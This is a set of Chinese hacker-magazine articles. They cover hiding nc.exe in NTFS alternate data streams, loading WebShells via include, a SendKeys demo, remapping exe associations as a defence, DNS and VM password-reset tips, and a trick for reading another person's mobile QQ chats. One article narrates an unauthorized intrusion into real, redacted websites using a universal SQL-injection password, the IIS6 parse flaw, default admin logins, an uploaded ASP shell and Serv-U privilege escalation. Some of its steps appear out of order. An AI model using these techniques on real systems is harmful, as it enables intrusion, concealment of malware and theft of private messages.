

图2

NTFS 文件系统支持多个数据流的数据，也就是说一个文件可以有多个数据流，该文件称为宿主文件，与之关联的数据叫作数据流。一般来说我们用 type 命令来关联一个文件的数据流（在第2部分会有具体的实例），同样在编程时也能使用数据流（如图1）。

接下来，在 `c:\test` 目录中建立一个 `1.txt` 的文本文件，然后以 `1.txt` 为宿主文件，在 cmd 中执行：`type c:\test\nc.exe > 1.txt:nc.exe`，将其与 `1.txt` 进行关联，删除 `nc.exe`，再次用 360 检测（如图3）。在 cmd 中执行：`start .\1.txt:nc.exe` 能正常运行 `nc.exe`（如图4）。





### 三、NTFS数据流防删除

NTFS 数据流一旦删除宿主文件，也便不存在了，比如上面的 `1.txt:nc.exe`，一旦删除 `1.txt` 则数据流也随之消失。文中介绍了通过 BackupRead 函数读取文件并检测关联数据流的方法；若知道数据流名字，删除其宿主文件即可。为了防删除，可将数据流绑定到系统中难以删除的文件（如 sam）上，从而实现一定程度的防删除。



### 四、NTFS数据流与Web利用

NTFS 数据流文件无法被 IIS 及 Apache 正常解析，因此不能直接用于隐藏 WebShell。可以在程序中先将 WebShell 与宿主文件关联，再通过 include 方式加载到其它脚本文件中。

> （文章中所涉及到的代码和程序已收录在光盘中）

此时当然无法过 360 的主动防御，不过从这个测试不难发现，NTFS 数据流用于隐藏文件的确是一个不错的主意。

### 让电脑帮我读文本

### ——记一次玩咖的激情呈现

相信每一位“黑友”都有过对技术不感“兴趣”的时候。很多“黑客电影”中总会出现自动输出消息、黑屏绿字等效果。与其手工逐字输入，不如让电脑自动“输入”，在娱乐的同时增加学习技术的兴趣。下面示例让 Windows 自动在记事本中输入信息：love hackerxfiles By www.hackx.cc。

### 一、Vbscript实现

Vbscript 是很多朋友的入门“编程语言”，利用 SendKeys 方法可将预定义字符串发送到相应窗口中。编写代码如下：

```vb
' 子函数，用于显示文本
Sub ShowText(t,s)
  Dim i,j
  i=0
  j=Len(s)
  do while i<j
    i=i+1
    WScript.Sleep t
    WshShell.SendKeys Right(Left(s,i),1)
  Loop
  WshShell.SendKeys vbCrLf
End Sub

Set WshShell = WScript.CreateObject("WScript.Shell")
```

```vb
' 创建Shell对象
WshShell.Run "notepad.exe"  
' 运行记事本

WScript.Sleep 500

WshShell.AppActivate "notepad.exe"  
' 激活记事本

ShowText 30, "I Love Hackerxfiles        By www.hackx.cc"  
' 要显示的内容，可以在下面继续增加内容
```

```cpp
long temp = 0;
WCHAR test[] = L"Love Hackerxfiles    by www.hackx.cc";
for (size_t inx=0; inx!=wcslen(test); ++inx)
// 循环传递每一个字符串
{
  temp = test[inx];
  ::SendMessage(hEdit, EM_REPLACESEL, 0, (long)&temp);
  ::Sleep(30);
}
```

运行上面的脚本，会自动打开记事本，并将相应的字符发送到记事本中。

### 二、用VC++实现

用 VC++ 通过 Windows 消息机制来实现上面的目标更加容易，只需要几行代码即可。在 Windows 中可以通过 SendMessage() 向窗口发送 WM_SETTEXT 消息来传递文本，但是 WM_SETTEXT 消息不会像上面的 Vbscript 一样有一种不断“输入”的过程，这让人感觉很不带劲。但是，我们却可以通过发送 EM_REPLACESEL 消息，循环将每一个文本字符发送到记事本窗口中，代码类似于下面（详细源码及编译好的程序已打包）。

```cpp
// VC++实现的自动文本发送
......
::WinExec(TEXT("notepad.exe"), SW_SHOWNORMAL);
// 运行记事本
::Sleep(500);
HWND hNotepad = ::FindWindow(TEXT("Notepad"), NULL);
// 定位主窗口
::SetFocus(hNotepad);
HWND hEdit = ::FindWindowEx(hNotepad, NULL, TEXT("Edit"), 0);
// 定位子窗口
```

打包的程序，考虑到可能要输出比较多的文本，同时对于不同的“黑友”可能要显示的内容也不会相同。如果每一位朋友为了显示自己的内容都需要重新编译程序，我相信“板砖”会不时飞向我的“卡头”。所以程序通过文件来保存你要显示的字符，只需要将要显示的文本写入到程序当前目录中的 willshow.txt，然后运行程序即可。

比如显示中英文两种字符的“I Love Hackerxfiles”，在 willshow.txt 中写入相应的文字格式，以后要显示这些字符，运行 SendKey.exe，程序即会自动打印。（如图1）



本文不是讨论编程，不是讨论消息机制，主要是希望朋友们在对“技术”不感兴趣的时候，自己要学会去调整，执着只有在放弃的一瞬间才是美好的。论坛 ID: Bascnet，黑X新域名 www.hackx.cc，欢迎一起讨论更多有意思的东西——技术、生活都可以。

（文章中所使用的源码已收录在光盘中）

## 改变exe文件关联让exe换个“活法”

最复杂的机制往往就在最简单的现象中。我们知道 Windows 中大部分可执行文件都是以 .bat、.exe、.com、.scr 等后缀命名的。正是因为此，很多人习惯性地认为 Windows 可执行文件都是以这些后缀名命名的，这种习惯有点想当然的感觉。事实上 Windows 只有一种可执行文件格式——PE（Portable Executable）。之所以有上面的习惯，是因为 Windows 的 GUI 界面中为了方便用户操作，将一些后缀名与相应的程序进行了关联。既然 Windows 能关联，为什么我们不能手动地进行关联设置。

### 熟悉文件关联操作

文件关联的数据保存在注册表中，在“开始”——“运行”中输入 regedit 打开“注册表编辑器”，在 HKEY_CLASSES_ROOT 根键下即能看到这些关联（如图1）。当然一般情况下，我们习惯在 cmd 中进行文件关联的查询和操作，运行 cmd，输入 assoc 命令即可查看到 Windows 中的文件关联（如图2）。

用 assoc 命令和使用注册表编辑器，看到的内容是一致的。要查看某一个特定后缀的文件关联，比如查询 .exe 的文件关联，可以执行 assoc .exe。对文件关联的操作在很多时候是很有用的，因为不同的格式有不同的运行方式，比如 exe 文件，在编程时可以直接调用 system()、WinExec()、ShellExecuteEx() 等函数直接运行，而对于同样是 PE 格式的屏幕保护程序（.scr）则需要在调用上面的函数时加上 /S 参数。为什么要加参数呢？首先在 cmd 中执行：assoc .scr，会得到 .scr 后缀名关联的是 scrfile，继续执行 ftype scrfile，你会发现它的执行格式中必须有一个 /S 参数，而 exe 文件却没有（如图3）。

assoc、ftype 命令和其它 cmd 命令一样，可以通过“/?”参数来查询其帮助信息（不熟悉的朋友可以阅读一下它的帮助信息）。要修改文件关联，既可以通过“注册表编辑器”来完成，也可以通过 cmd 中的命令来完成。

### 修改 exe 文件关联防止运行恶意程序

在说这个话题之前，先来解答第一个问题。为什么修改 exe 文件关联，让 exe 换个“活法”，可以防止运行恶意程序。

程序是静态地存储在硬盘上的数据，CPU 要执行指令必须得先将硬盘上的数据读入到内存中，在 Windows 中这个过程称为 PE 加载，具体的细节暂时不用了解，但是需要明确一点，程序必须在内存中才可以执行。因此对于捆绑程序（永远不会过时的欺骗电脑白痴的木马传播手段），要运行其中的捆绑数据必须先释放到硬盘，然后再创建进程。当然有一种例外（这种例外是一般小牛、中牛做不到的，大牛是不会搞这种玩意的，所以尽管放心使用本文所用的小伎俩）——就是编写一个类似于 Windows PE 加载器的程序，在捆绑程序运行时，直接在内存中执行捆绑的程序。

很多人喜欢在文件名后缀上“忽悠电脑小朋友”，比如前段时间的 Unicode 控制字符文件名欺骗，如果我们修改了 exe 文件的关联，则很大程度上可以躲过这种欺骗手法。总的来说，修改 exe 文件关联（这里只是一个文件名后缀的例子）一方面可以四两拨千斤——躲过恶意程序；另一方面限于大部分牛人的能力，可以阻止运行恶意程序。

了解了原因，操作起来就比较简单了。具体的操作如下，步骤可能有些繁琐，注意区别命名的文件名即可（下面通过注册表编辑器进行操作）。

首先，在“开始”——“运行”中输入 regedit，运行注册表编辑器，将 [HKEY_CLASSES_ROOT] 下的 .exe 和 exefile 导出合并为一个 exe.reg 文件，作为备份（正常状态下的注册表文件为 exe.reg）；然后复制一份 exe.reg，用记事本打开 exe.reg，在“编辑”菜单中选择“替换”，将 .exe 替换为 .test，将 exefile 替换为 testfile；文件“另存为” test.reg。如果我们将 test.reg 导入注册表，那么系统中的可执行文件格式将变为 .test 后缀的。

为了方便不断地切换文件关联，建立如下两个批处理文件，编辑如下批处理代码：

```bat
reg delete HKEY_CLASSES_ROOT\exefile /f /va
reg delete HKEY_CLASSES_ROOT\.exe /va /f
regedit /s test.reg
```

保存为 test.bat，它的作用是使 exe 文件关联失效，而使 .test 作为可执行文件；然后再编写如下批处理代码：

```bat
reg delete HKEY_CLASSES_ROOT\testfile /f /va
reg delete HKEY_CLASSES_ROOT\.test /va /f
regedit /s exe.reg
```

保存为 exe.bat，它的作用是使 test 文件关联失效，将可执行文件 exe 设置为可执行文件的文件关联！

四个文件写完后将其保存到 c:\test（可以自定义目录）文件夹下，然后将 test.bat 和 exe.bat 分别创建快捷方式发送到桌面……这样我们只要按“Ctrl+Alt+T”或者“Ctrl+Alt+E”就可以进行文件关联切换了。

当我们从网上下载了程序，直接 Ctrl+Alt+T 执行后，系统 .exe 文件变为 .test，我们将下载的程序重命名为 xxx.test，然后执行程序……再按 Ctrl+Alt+E 改回原来的正常文件关联即可。

#### 实例测试

吹嘘了许多理论，接下来做一个小测试。测试程序 1.cxc（用汇编写的 hello world 程序，相当于恶意木马程序）、2.exe（捆绑了汇编程序的 C 程序）是要进行测试的程序……首先看一下捆绑后的程序能否被反捆绑软件检测出来（如图4）。

没有一款常用的反捆绑工具能检测出来。接下来，我们直接运行《捆绑汇编程序的 C 程序.exe（源码及测试程序已打包）》……其执行效果（如图5）。

程序运行后会释放 d:\1.cxe 并且运行成功，关闭程序后，Ctrl+Alt+T 将系统可执行文件的后缀名修改为 .test，然后将捆绑程序的后缀名修改为 1.test……再次运行修改后缀名的捆绑程序，这样就不会看到如图5的提示框了，即捆绑的程序没有运行。

同理，对于 Unicode 控制字符用于文件名欺骗的程序也可以这样运行。要改回原来的 exe 运行状态，直接 Ctrl+Alt+E 即可。对于服务器来说，不妨也试一下这种欺骗方法……如果我们将注册表编辑器、assoc.exe、ftype.exe、cacls.exe 的权限都设置为非管理员用户拒绝权限，则相当于无形中增加了一个权限开关。

当然技巧是死的，人是活的，活学活用，其乐融融。论坛 ID：Basenet，欢迎一起讨论更多 Windows 的技巧。

（本文中涉及到的源码和测试程序已经收录在光盘中）

### 突破 TK 免费域名 CNAME 解析限制

又是一个月黑风高的夜晚，每当打开电脑，登录 QQ，就会不断地有咳嗽声伴随着滴滴声向我耳边传来……“如何突破 TK 免费域名 CNAME 解析限制”。关于这个问题我还是挺感兴趣的，因为我以前用 uueasy 做免费论坛的时候也用过 TK 域名绑定，但是 TK 域名很不合作，我用 TK 域名备案了却不给绑定，很让人恼火的。

现在我从头讲起吧。先注册一个 TK 域名，注册地址：www.dot.tk，都是纯中文的，相信大家都会注册的了。我就以 www.hackx-files.tk 绑定到 uueasy 免费论坛为例。

如图1，在 uueasy 官方的解析说明里，也可以去 uueasy 看教你 CNAME 的解析教程：http://bbs.uueasy.com/read.php?tid=190679.html。但 UU 是以万网为例，所以不适用于 TK。

现在我按照 UU 的说法把 d.uueasy.com 放到 TK 去，结果发生了错误（如图2、3）。

这就说明 TK 的 CNAME 解析不是很严谨的，这时我想到了用 DNSPOD 来解析。什么是 DNSPOD 呢？DNSPod 建立于 2006 年 3 月份，是一款免费智能 DNS 产品。

DNSPOD 使用起来还是挺不错的，无论是速度还是质量都可以跟任何一家公司相媲美，而且还有免费提供域名解析的功能。

DNSPOD 的地址是 www.dnspod.com，打开网址后大家自己先注册，注册好后点添加域名，然后输入 hackxfiles.tk 后点“添加域名”（如图4）。

到了这一步，我们需要把 TK 的 DNS 服务器解析到 DNSPOD 的服务器上，点 TK 的选择框上的内容，选择“使用自定义 DNS 服务”，将 f1g1ns1.dnspod.net 和 f1g1ns2.dnspod.net 添加进去（如图5）。

现在再回到 DNSPOD 的管理 hackxfiles.tk 的面板上，在主机记录的栏目上填写 www，记录类型选择 CNAME，记录值填写要绑定的值。我是以 UU 为例，所以写“d.uueasy.com.”，TTL 一般填 3600，然后点添加即可（如图6）。

现在已经达到了使用 TK 域名绑定 UU 的效果了，最后你只要再去 UU 论坛的后台把你的域名信息绑定和备案信息填写好即可，只要 1-2 天时间，UU 的工作人员就会帮你审核然后绑定。

使用 DNSPOD 解析大概最快需要半小时，最慢也就 1 天时间而已，所以推荐大家使用这个方法还是不错的。好了，文章到这里就结束了，大家赶快拿起手中的电脑去试试吧。

### 虚拟机中系统忘记密码不用愁

前几天我的一个在一个公司做网络管理工作的老同学打电话给我，说他有一个 VMware 虚拟机中的 Windows 2003 系统的密码忘记了。由于那个虚拟机中有一些重要内容不能丢失，不能重新安装系统，让我想个解决办法。

我的想法是，虽然我没解决过忘记虚拟机中系统密码的情况，但听说普通 Windows 系统忘记了登录密码可以通过有些启动光盘解决。如果虚拟机中的系统能从光盘启动，可以尝试也利用带有密码重设功能的启动光盘解决，跟真实系统忘记了登录密码的处理方法相同。

首先要解决的问题就是怎样让 VMware 虚拟机中的系统从光盘启动。用过 VMware 的人都知道，VMware 中的系统安装完操作系统后默认都是从硬盘启动，要想让虚拟机里的系统从光盘启动，需要进入虚拟机里系统中的 BIOS 进行设置，而这是一个小难题。在 VMware 的虚拟机系统中，在系统刚启动时按 F2 键就可以进入虚拟机系统的 BIOS，但你必须在零点几秒内按下 F2 键才有用，系统启动时提示你按 F2 键的界面一闪而过，而且鼠标必须点一下虚拟机里的系统，使鼠标的焦点在虚拟机中的系统中时按 F2 才有效，因此用常规方法进入 VMware 中虚拟机系统的 BIOS 比较困难，需要借助一点小技巧。

为了演示进入 VMware 中虚拟机系统的 BIOS 并重设密码，我模拟了一个环境。我的电脑中安装的是 VMware Workstation 7.1.0。在 VMware 中通过克隆快速建立了一个名为 2k3test 的 Windows 2003 系统作为演示系统。系统中原登录密码为 123456，假设密码忘了，要想办法把密码重设为 654321。由于忘记了密码，系统停在了如图1的界面。

首先要进入虚拟机中系统的 BIOS，这时候需要用到一个小技巧。既然直接启动的时候来不及按 F2 键进入 BIOS，我就在重启的时候按 F2 键。先启动系统到输入登录密码的地方，然后按 VMware 中的“Full Screen”按钮使虚拟机中的系统全屏显示（如图2）。

进入全屏的好处是你鼠标的焦点始终在虚拟机中的系统中，按 F2 键对虚拟机里的系统有效。在图1中的登录地方点“关机”按钮，然后在出来的选择框中选择“重新启动”来重启系统。重启过程中看到“Windows 正在关机”的提示后，在全屏状态下一直按 F2 键，就会进入 BIOS 界面（如图3）。

如果你第一次还是没来得及按 F2 键，再次选择重新启动系统并按 F2 键，直到进入 BIOS。要想虚拟机从光盘启动，通过按键盘上的向右箭头移动到“Boot”菜单，在这里可以看到虚拟机系统中各设备的启动顺序，默认的是“Hard Drive”在最上面，也就是第一启动设备是虚拟机系统里的硬盘。我们要系统从光盘启动，就要把“CD-ROM Drive”移动到最上面。通过键盘上的向下按键把焦点移动到“CD-ROM Drive”上（获得焦点后字的颜色会由原来的蓝色变为白色），然后按键盘上的“+”把“CD-ROM Drive”移动到最上面（如图4）。按 F10 后回车保存设置并退出 BIOS，就可以从光盘启动了。

虚拟机里的系统能从光盘启动了，下面该找可以启动系统并且可以清除或修改 Windows 2003 系统密码的光盘了。这里我选择的是《黑客X档案》2010年10月杂志“Windows 控制权争夺战”一文中介绍的 ERD Commander 2005，它可以直接重设 Windows 2003 系统的密码，当然其它带有这种功能的启动光盘也可以。我从网上下载了 ERD Commander 2005 的镜像文件，本地保存名为 ERD Commander 2005 BootCD(原版).iso。

不用把镜像文件刻录到光盘就可以使用，因为 VMware 支持直接从镜像文件启动。关闭虚拟机中的忘记密码的系统，选择 VMware “VM” 菜单下的 “Settings...” 打开虚拟机的设置页面，点击 “CD/DVD(IDE)” 设置项，“Connection” 选择 “Use ISO image file”，也就是选择使用镜像文件，然后通过点击 “Browse” 按钮来选择 ERD Commander 2005 的镜像文件，这里我选择 ERD Commander 2005 BootCD(原版).iso（如图5）。点 “OK” 按钮使设置生效。

启动虚拟机里的系统，顺利启动了 ERD Commander 2005（如图6）。点两次 “OK” 后就来到了如图7的界面，进入了一个小型的系统，有点类似于 Win PE 系统。点左下角的 Start 按钮就会出来 ERD Commander 2005 的功能菜单，通过菜单可以知道 ERD Commander 2005 有很多功能，这里只用它的重设系统密码功能。点 Start 按钮，选择 “System Tools” 下的 “Locksmith” 菜单，就打开了如图8的重设密码向导，点 “Next” 就来到了重设密码的地方。在 Account 后面的下拉列表中你可以选择给哪个用户重设密码，因为我忘记了 Administrator 这个用户的密码，所以在 Account 后面选择 Administrator，在 New Password 后面输入要设置的新密码，这里我输入想要设置的新密码 654321，然后在 Confirm Password 后面重复输入一遍新密码（图9），点 “Next” 按钮，再点 “Finish” 就重设密码完成了。

点 Start 按钮选择“Log Off”，再选择“Restart”重新启动系统，按 F2 进 BIOS，把第一启动设备重新设置为硬盘。重新启动系统，来到输入密码的登录界面，输入新设置的密码 654321 后成功进入系统（如图10）。用 ERD Commander 2005 重设虚拟机中系统的密码成功。

测试过才知道，其实重设 VMware 虚拟机中系统的登录密码和重设普通系统中的登录密码几乎一样，只是要进入虚拟机系统中的 BIOS 需要一点小技巧，而且直接照搬即可。

### 检测目标安全下载站

放假了，每天无聊得不行。今天没事干，跑到黑榜去看看又收录了哪个黑站。突然发现了个名字叫“非安全下载站”，于是点进去看看（如图1）。

分析有存在这个漏洞，万能密码是：' or' =' or'。大家可以记下，以后可能会用到。

继续，我们试下旁站，19 个旁站（如图3）。

哇！这不是跟黑手的名字差不多嘛，乍一看像黑手的下载站呢，呵呵。非安全就非安全吧。管他安不安全，检测一下玩玩，反正没事干，于是爆破开干，随便输入一个 admin，爆出了后台（如图2）。

好，那就从旁站入手吧。本想用明小子跑，看看有没有啥注入的，可明小子被挂了，算了，手工吧。随便挑了一个站 http://07***.com/。这里我再给大家介绍一下，旁站的时候我们一般要选择那种 XX 公司，因为这样的站漏洞一般比较多，通过这种站拿下 SHELL 的几率也比较大（如图4）。

总结：什么鸟系统，没见过，随便输入默认密码和万能密码试了下，都不行。这里给小菜讲解下万能密码。万能密码是因为登录页面过滤不严导致的一个漏洞，N 年前的东西了，但是现在还是有部分……

http://07***.com/ 我随便看了看都是 HTML 和 JPG，连后台都扫不到，我纠结。大概就是个破站，连后台可能都没有-！（这种站太淫荡了，鄙视一下）

又找了个 http://www.***0755.cn/，ASP 结构的。http://www.***0755.cn/Technician_show.asp?class_oneid=1&id=260 试下注入，我随便在后面加了 ' 报错。兴致来了，这里应该可以进，拿工具扫，怎么扫也没有注入（如图5）。

后来才发现是 JET 的（···！纠结死我了，要是 ACCESS 或者 MSSQL 的多好，没事干用什么 JET 的嘛），用工具跑了下下，有 FCK 编辑器（如图6）。

哈哈，有编辑器就好办了，直接用解析漏洞嘛。

说到解析漏洞，我们来讲下解析漏洞是怎么一回事。IIS6.0 下文件名解析漏洞，遇到 http://www.xxx.com/uppic/1.asp/xiaoma.jpg 会自动解析成 asp 文件执行。此漏洞产生在 IIS6.0，处理文件夹扩展名出错导致以 .asp 命名的文件夹后面的文件直接以 asp 代码执行。所以无论 *.asp 文件夹后面是什么格式的文件都被当作 ASP 程序执行。同理可得，只要是可执行程序都可以利用此解析。如：在 IIS 没有删除扩展名的情况下，1.asa/xiaoma.jpg、1.cer/xiaoma.jpg 都可以当作 asp 代码被执行。

此漏洞主要利用于网站后台上传文件夹可以创建目录。存在的程序主要有动易系统、FCKeditor 编辑器。

IIS 5.0 不存在此漏洞，可能这是 IIS 6.0 在设计上的缺陷！

我们继续，输入：

```text
http://www.***0755.cn/FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=../../connectors/asp/connector.asp
```

被删了，我纠结（如图7）。

我又在站上逛了逛，觉得没法利用，那我们就再换个站吧。（旁站就是如此，经常是悲剧型的···！）

又找了个站，某某性福论坛（如图8）。

好蛋疼的论坛。不管了，我们先来看看有没有洞。这个是 BBSXP 做的，这个站 PR 不错，管理员密码帐号都是默认的，直接杀进后台（如图9）。

本想找个可以上传的地方，不知道为啥找不到。还是去前台看看吧！找个地方发帖了。哈哈，可爱的编辑器又来了（如图10），我来通过编辑器 XXOO 这个站吧。

图11

我们来到这个网站的编辑器后台，试下默认密码 admin/admin，和前面一样，直接进了（如图11）。

那我们来拿 SHELL，点“样式管理”（如图12）。

图12

选最后一个样式，直接写入 ASP，点“提交”，然后点“预览”直接上传 ASP（因为我们已经设置可以加 ASP 了，所以我可以光明正大地上传我们可爱的 SHELL，嘿嘿！）。

上传后就变成这样（如图13）。

图13

再点代码查看它的路径（如图14）。

图14

找到路径直接访问吧！输入密码，拿到这个站的权限！我们来看看这个服务器的安全怎么样。看看组件支持（如图15）。

图15

wscript.shell 被 K 了，不能执行 CMD，郁闷！（如图16）

图16

也不支持 ASPX，怎么办呢？没有 CMD 执行权限，那我们来翻翻目录好了，去 C:\Program Files 看看有没有可以利用的（如图17）。

## 菜鸟学堂

有 360 耶。可没有 CMD 执行权限（--！管理真蛋疼，删什么组件，悲剧）。忽然，眼前一亮，SERV-U，哈哈，我们去看看。还好，SERV-U 可读，但不可写。要是可写就好了，纠结（如图18）。

怎么办呢。我们把 SERV-U 下到本地看看密码吧。我们把 Serv-UAdmin.exe 文件下到本地来，用 C32 打开，看看密码（如图19）。

发现密码没有改，是默认的。那我们直接用 SHELL 带的提权工具提权好了。哈哈，今天 RP 真好，密码竟然没改。这个是原来的用户。我们提权试下（如图20）。

虽然提示成功了，但是谁知道有没有加进去。激动人心的时候到了，我们去看看加进去没有（如图21）。

| 系统用户与密码 |
| --- |
| （截图中的多行用户/密码列表） |

OK 了！服务器我就不登录了，检测就到此为止吧，看来“非安全”确实不够安全。哈哈！漏洞已经通知管理了，希望大家不要再去搞破坏了。友情检测而已！

## 手机巧改伪机绑定制QQ本地屑屑

黑色倒影

手机QQ现在已经普及了，几乎每部手机中都会内置，可手机QQ的安全性却实在不敢让人恭维……本文介绍的是关于手机QQ本地文件验证不严所导致的一个漏洞，可用于多数手机QQ版本。

稍微细心一点的朋友都会发现手机里有一个名为 QQ 的文件夹，里面保存了与登录QQ号相关的文件。通过查看不同后缀文件，可发现好友列表、聊天记录等数据的存储方式。

如果别人曾在你的手机上登录过QQ，只需到QQ文件夹中把以 B 号命名的文件重命名为 A 号（你的QQ号），再登录 A 号，即可能看到 B 号的好友与聊天记录（具体显示可能受版本影响）。

图2

图1

我测试了 OPPO 手机中的 2007 和 2008 版本 QQ，发现此方法可行。方法大同小异，读者可自行尝试延伸到其他环境。

## 一张签名图助你快速查看QQ农场等级

聖智

现在我每天早上起床后的第一件事情就是打开电脑上网偷菜……后来找到一个只需一句代码就可搞定的方法，不是一张签名图那么简单，下文继续说明。

首先访问 QQ 农场排行榜页面，输入QQ号点击“搜索排名”。若提示“无法找到此QQ号数据”，可通过“我要提交我的数据”入口提交或更新数据，并选择所在地区后生成统计代码。

cookies 数据来更新农场数据的，因此我们可以放心地使用。点击代码下方的“复制上面的代码（此操作仅支持IE）”按钮，它就会弹出复制成功的提示，如图2所示。

图1

图2

图3

